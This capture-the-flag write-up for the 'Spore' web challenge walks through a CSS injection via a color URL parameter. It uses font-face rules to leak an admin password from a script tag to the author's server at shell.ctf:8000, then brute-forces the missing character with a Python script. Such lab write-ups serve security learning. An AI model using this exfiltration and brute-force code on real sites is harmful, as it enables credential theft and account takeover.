








# Spore

## The Scenario

> Anatoli Boon:Ouyaya strives to revolutionize the NFT market by creating a 
revolutionary experience for our users! Ouyaya knows the future 
is not with NFT, but with VFTs (Very Fungal Terrain). As such, 
Ouyaya is proud to offer a brand new customer experience with
NTFs by releasing the SPORE platform, a plateform to free your
 NFTs to the world, in exchange for Shiitakoin.
> 
> Ouyaya knows there will be a virtual housing crisis soon. With this
disruptive new portal, Ouyaya is a key player in solving this problem, 
before it even exists.
>
> To try this amazing new portal, visit spore.ctf.
>
> You can login using beta@spore.ctf/6gqab1
>
> P.S. The application is still in beta. If you encounter any problems,
use http://spore-feedback.ctf/ to send any links with issues.
admin@spore.ctf will visit it and might provide help.
>
> Anatoli Boon
CEO @ OUYAYA
=====


## Initial Impressions

Hitting the main domain (`spore.ctf`), we are faced with a login screen, along with a link to `spore-feedback.ctf`. The screen cycles through various images of "liberated" NFTs, suggesting that possibly we may need to liberate the administrator's NFT (an administrator account, `admin@spore.ctf`, is mentioned in the flavor text). This, along with the fact that we have access to a "feedback" site that we can use to cause an administrator to view a given URL made me suspect that we might be looking for an XSS or similar type of vulnerability-- essentially something that would let us generate a URL that would cause the administrator to liberate their NFTs when visited. 

 

Once we log in with the provided credentials, we see the following page-- the only two interactive elements are the "Liberate your NFTs" button, and a Dark Mode toggle in the bottom left corner.

 

 

Looking at the page source (second screenshot in the above series), we see that the "Liberate your NFTs" button calls the `liberate` function from the page javascript, which makes a POST request to `/publish` with a password in the POST body. Interestingly, this password seems to be hardcoded into the page script, and looks to be the password we just used to log in. This is absolutely suspicious, but by itself doesn't seem exploitable, since we'd need to be logged in as the administrator already to see the password, or would need some means of recovering the page body served to another user.

The Dark Mode toggle, however, is interesting-- from the source in the above screenshot we can see that all it does it redirect the user to the same page (`/main`), but adds a query parameter of `?color=DarkGray`. This looks like it may be providing a color value that is then directly incorporated into the page somewhere; visiting the link we can see that the background of the page is indeed now gray, and looking at the source, we can see that the CSS served with the page now contains `background-color: DarkGray`:

 

As a quick test to confirm the parameter is actually being included directly, we can try some variations on this URL, such as `/main?color=blue`, and `/main?color=thisismalformed_;background-color: red`. The blue payload sets the page color as expected, and the malformed payload also sets the page color:

 

At this point, it's clear that we have the ability to inject content into the page CSS; so the question becomes whether we can use this injection to do anything useful. CSS is a much more restrictive environment than javascript or HTML, so my first thought was to try to break out of the style tag entirely and inject some HTML or javascript into the page. However, my first attempt at breaking out of the stylesheet with `/main?color=><}{;:/1234` did not yield promising results:

```html
<style>
#footer{
max-height:10%;
position:fixed;
left:0;
bottom:0;
color:red;
text-align:right;
}


body {
	margin:auto;
	max-width:80%;

	background-color: }{;:/1234
}
<style>
```

The fact that the `<` and `>` characters were stripped entirely from the response wasn't very promising. In all fairness, there could still have been some sort of double encoding vulnerability or other trick here, but from a CTF player's perspective getting HTML/script injection on the page would really make things too easy, so I suspected the challenge designer had something else in mind. At this point I started investigating whether I could do anything interesting using just CSS; off the top of my head, all I could think of was some sort of CSRF/SSRF on the administrator using the `background-image` directive. Unfortunately, as far as I can tell, this can only be used to send GET requests, so although the injection does work, and can compel the administrator to make a request, there doesn't seem to be something exploitable here.

 

As I'm not extremely familiar with more than the basics of CSS, I turned to google for information on more sophisticated CSS injection attacks. PortSwigger had a [summary](https://portswigger.net/kb/issues/00501300_css-injection-reflected) that linked to an [interesting looking post](https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities#badcss) outlining some possible attack vectors. I discarded the options involving issues in various older browsers allowing for script execution (If I recall correctly at this point we'd seen the browser version in a request from the administrator to our shell server, though I may have just assumed it wouldn't be something this easy, to be honest). This left us with a few different options involving pulling data out of the page text (unfortunately several of the links off that portswigger post are dead, but there's still enough to outline our options). Our options include [using CSS animations to trigger custom font rendering](https://html5sec.org/webkit/test ), some [faster options for exfiltration](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) involving `@import` directives which won't work here because we cannot inject into the top of the style block (a requirement for this attack). To my inexperienced eye, neither of these options seemed particularly promising, since we needed to either compel a POST request with parameters by the administrator, or exfiltrate the administrator's password from a `<script>` tag in the page. I assumed that, as `<script>` tags aren't rendered into the page (and thus, I assumed, couldn't be styled), the CSS exfiltration techniques above wouldn't work. At this point I was stumped, but fortunately a teammate kept looking, and informed me that font-face CSS attacks **do** in fact work against script tags, and that browsers will happily evaluate CSS rules on `<script>` blocks.

## The Attack

Fortunately for us, PortSwigger actually has PoC code for the exfiltration of `<script>` tag data via CSS [on their github](https://github.com/PortSwigger/css-exfiltration/tree/main/steal-script-contents), so I was able to copy and adapt a known-working instance of the exploit, rather than starting from scratch. This code was considerably less sophisticated than some of the other examples above-- all it was really able to do was report the *first* time a given unicode character appeared in a styled block. If we had needed to retrieve the entire script this would be an issue, but since all we need to do is retrieve the administrator's password, which is set in the first line of the script, I decided to move forward with this more basic approach. 

First, I reformatted the PortSwigger PoC (which uses several .css files) into one giant ugly CSS file and replaced the URL for the custom font files with our own server at `http://shell.ctf:8000/` using the following code:

```python3
import sys
def replaceurl(block,prefix):
    return block.replace('url("/','url("'+prefix)
builder =''
for a in sys.argv[1:]:
    builder+=replaceurl(open(a).read(),'http://shell.ctf:8000/')

print(builder.replace('\n','').strip())
```

Naively attempting to copy-and-paste this into the GET parameter on `/main?color=` did not appear to work:

 

As I've mentioned, I'm not great with CSS, so it took me a while to realize that the injection was failing (among other reasons) because the `script` style needed to be outside of the `body` style, so we need to add an `}` to our injection to close the `body`.  However, even closing the block out in the url with `/main/?color=red;}PAYLOAD` doesn't quite work. We do see requests to our server now for all the font files, but they seem to be in alphabetical order, not in the order in which they occurred in the page:

```
127.0.0.1 - - [25/May/2022 23:24:32] "GET /Z HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /static/spore.png HTTP/1.1" 304 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /static/82ff520d-5886-44d1-9b30-8d6306daaac5.jpg HTTP/1.1" 304 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /Y HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /X HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /W HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /V HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /U HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /T HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /S HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:32] "GET /R HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:33] "GET /Q HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:33] "GET /P HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:33] "GET /O HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:33] "GET /N HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:24:33] "GET /M HTTP/1.1" 404 -
```


When we inspect the style of `<script>`, we don't see the bulk of our injection-- I never definitively figured out what was wrong here to be perfectly honest, but did notice some issues with spacing and newlines in the stylesheet view (as opposed to the inspection view of the browser): 

 

 


Given the formatting issues we saw, I decided to pass the payload through a [minifier](https://www.toptal.com/developers/cssminifier/) and URLEncoded it.

At this point, we started getting responses that weren't in alphabetical order and did roughly appear to correspond to the beginning of the script, but were still somewhat jumbled:
```
127.0.0.1 - - [25/May/2022 23:52:47] "GET /%3D HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:47] "GET /%22 HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:47] "GET /; HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /, HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /%2F HTTP/1.1" 302 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /+ HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /a HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /v HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /r HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /x HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /6 HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /C HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /g HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /q HTTP/1.1" 404 -
127.0.0.1 - - [25/May/2022 23:52:48] "GET /b HTTP/1.1" 404 -
``` 

For comparison, the actual script block contained:
```javascript
var x = "6gqab1";

function liberate(){
	if (confirm('Are you sure you want to free this NFT')){
		const xhttp = new XMLHttpRequest();
		xhttp.open("POST","publish")
		xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
		xhttp.send("pass="+x); 
	}
}

```

The jumbling of requests made me think that we might be dealing with some sort of minor race condition, so we added a `time.sleep(1)` to the Flask function generating our font responses. This produced output that looked a lot better:

```
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/v HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/a HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/r HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/x HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/%22 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:58] "GET /inject/%3D HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/6 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/g HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/q HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/b HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/1 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:23:59] "GET /inject/; HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/f HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/u HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/n HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/c HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:24:00] "GET /inject/t HTTP/1.1" 200 -
```

With a working exploit in hand, now we needed to deploy it against the administrator; we pasted the exploit URL into the "report an issue" form, and waited to start seeing requests to our webserver:

```
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/v HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/a HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/r HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/x HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/%3D HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/%22 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/8 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/g HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/s HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/d HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/o HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/; HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/f HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/u HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/n HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/i HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/c HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/t HTTP/1.1" 200 
```

This exfiltration appears to have mostly worked, but the password only appears to be five characters; we tried logging in as `admin@spore.ctf` using the shorter password, but did not succeed. However, given what we know about how the attack works, and making some assumptions (namely, passwords are alphanumeric), we deduced that the missing character in the password had to be one of `varx`, as those were the only alphanumeric characters to appear before the password in the script. This felt like an acceptably small number of possibilites to brute-force (only 20 total), so I wrote a quick script to do so:

```python3
import requests
possiblechars = 'varx' #' ="'
base = '8gsdo'
for i in range(len(base)):
    for c in possiblechars:
        guess = base[:i]+c+base[i:]
        print('Guessing:',guess)
        r=requests.post('http://spore.ctf/login',data={'username':'admin@spore.ctf','password':guess})
        if 'Logged in' in r.text:
            print('Got it!', guess)
```

This successfully retrieved the administrator's password pretty much instantly (`8gvsdo`), at which point we were able to log in as the administrator and view their NFT, which contained the flag!

 


